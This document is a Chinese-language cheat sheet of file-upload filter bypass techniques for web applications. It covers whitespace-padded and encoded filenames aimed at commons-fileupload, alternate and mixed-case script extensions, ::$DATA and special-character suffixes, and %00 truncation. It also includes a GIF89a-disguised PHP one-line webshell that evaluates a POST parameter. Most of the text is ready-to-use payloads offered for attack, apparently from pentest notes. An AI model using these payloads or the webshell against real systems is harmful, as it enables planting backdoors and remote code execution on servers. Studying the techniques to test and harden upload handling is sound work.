## 文件不解析
上传html文件不解析，修改`Content-Type: text/html`来设置文件格式

## 名称/后缀检测绕过
### 黑白名单判断
瞎写一个文件后缀，如上传 `tx` 可以，上传jsp不行，则上传限制为黑名单控制。

### 在filename字符左右加上一些空白字符
`filename="1.jsp"  ->  %20filename%0a="1.jsp"`

%20：空格	%0a：换行

或者后缀使用空格：

`后缀中间加空格：.js p	后缀后面加两个空格再加正常的后缀：a.jsp  .xls`

### 文件内容检测绕过
文件头：Content-Type: image/jpeg
文件内容：
```php
GIF89a?
<?php
Eval($_POST["pass"]);
```
(有可能会检测文件内容，例如不允许有危险函数eval)

### java特殊编码绕过（针对commons-fileupload组件）
`filename="=?gbk?Q?=31=2e=6a=73=70?="`

`filename="=?utf-8?B?MS5qc3A=?="`

文章：[https://y4tacker.github.io/2022/02/25/year/2022/2/Java%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%A4%A7%E6%9D%80%E5%99%A8-%E7%BB%95waf(%E9%92%88%E5%AF%B9commons-fileupload%E7%BB%84%E4%BB%B6)/#%E4%BD%A0%E4%BB%A5%E4%B8%BA%E5%B0%B1%E8%BF%99%E5%B0%B1%E5%AE%8C%E4%BA%86%EF%BC%9F](https://y4tacker.github.io/2022/02/25/year/2022/2/Java%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%A4%A7%E6%9D%80%E5%99%A8-%E7%BB%95waf(%E9%92%88%E5%AF%B9commons-fileupload%E7%BB%84%E4%BB%B6)/#%E4%BD%A0%E4%BB%A5%E4%B8%BA%E5%B0%B1%E8%BF%99%E5%B0%B1%E5%AE%8C%E4%BA%86%EF%BC%9F)

### 名称替换绕过
aspx&asp：ashx、asa、asmx、cer、cdx、ascx、asac  
php：pht、php3、php5、phtml、shtml  
jsp：jspx、jspf

### 后缀大小写检测绕过
Php、PHP、jsP

### 后缀添加特殊字符
`:、空格、::$DATA、.,$,/.,=等字符`，`: `只针对windows系统，会将后面的截断

### 截断绕过
`: ; %00 ’ ^`等符号截断，windows成功率比较高，因为windows在创建文件时这些特殊字符是不允许出现的。

